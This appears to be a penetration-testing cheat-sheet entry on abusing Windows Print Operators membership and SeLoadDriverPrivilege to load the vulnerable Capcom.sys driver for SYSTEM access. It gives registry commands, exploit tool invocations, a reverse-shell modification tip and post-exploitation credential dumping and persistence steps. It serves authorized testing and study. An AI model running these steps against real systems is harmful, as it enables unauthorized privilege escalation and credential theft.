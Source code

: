 ### Technique Name:

Print Operators
### Summary:

Members of the `Print Operators` group are granted powerful privileges including `SeLoadDriverPrivilege`, the ability to manage printers on Domain Controllers, log on locally, and shut down the system. This group can be abused to load vulnerable drivers like `Capcom.sys` to achieve privilege escalation to SYSTEM. This method depends on enabling the load driver privilege and loading a malicious driver either directly or via automation tools like `EoPLoadDriver`.
### Conditions:

- Membership in the `Print Operators` group    
- Ability to bypass UAC if SeLoadDriverPrivilege is not listed
- Ability to compile or run pre-compiled driver loading tools and exploits
- Vulnerable driver available (e.g., Capcom.sys)
- OS version before Windows 10 v1803 (for HKCU registry loading technique)
### Enumeration:

```cmd
whoami /priv
net localgroup "Print Operators"
```

To verify the presence of `SeLoadDriverPrivilege`:

```cmd
# From unelevated shell
whoami /priv

# From elevated shell (post-UAC bypass or GUI prompt)
whoami /priv
```
### Exploitation:
#### 1. Compile and Run Privilege Enabler

```bash
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
EnableSeLoadDriverPrivilege.exe
```
#### 2. Add Registry Key to Load Driver

```cmd
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```
#### 3. Load and Exploit Driver

```cmd
# Run EnableSeLoadDriverPrivilege.exe to enable the necessary privilege
# Then run compiled ExploitCapcom.exe
ExploitCapcom.exe
```

> If GUI access is not available, modify the `LaunchShell()` function in the exploit to launch a reverse shell instead of `cmd.exe`.
#### Alternate (Automated): Use EoPLoadDriver

```cmd
EoPLoadDriver.exe System\CurrentControlSet\Capcom C:\Tools\Capcom.sys
ExploitCapcom.exe
```
### Post-Exploitation:

- Confirm SYSTEM shell via `whoami`    
- Enumerate and dump credentials or establish persistence
- Remove registry artifacts:

```cmd
reg delete HKCU\System\CurrentControlSet\Capcom /f
```

- Optionally delete dropped driver and executable files
- Inform client that `SeLoadDriverPrivilege` abuse via HKCU is mitigated in Windows 10 1803 and later
# Tags
> #Windows-Post-Exploitation #Windows-Privesc #Privileged_Groups 